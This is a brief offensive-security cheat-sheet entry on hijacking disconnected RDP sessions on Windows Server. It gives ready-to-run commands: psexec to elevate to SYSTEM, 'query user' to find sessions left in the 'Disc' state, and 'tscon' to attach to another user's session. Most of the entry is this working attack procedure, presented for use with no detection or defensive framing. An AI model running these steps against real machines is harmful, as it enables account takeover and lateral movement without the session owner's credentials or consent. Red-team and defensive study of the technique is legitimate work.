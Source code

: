 # RDP Session Hijacking
- If an administrator uses RDP to log in to a machine and Instead of logging off the session, closes the RDP session, the session remains open on the server indefinately.
- If we have Administrative rights on a machine, we can reopen the session.
- Only works on Windows Server 2016
- We need to elevate from `Administrator` to `SYSTEM`.
```powershell
# First elevate to SYSTEM
psexec64.exe -s cmd.exe

# List the current rdp sessions
query user
# A Session with "Disc" state means that is left open by someone and currently not being used.

# Connect to active session using tscon
# tscon <id_to_connect_to> /dest:<current_session_name>
tscon 2 /dest:rdp-tcp#6
```

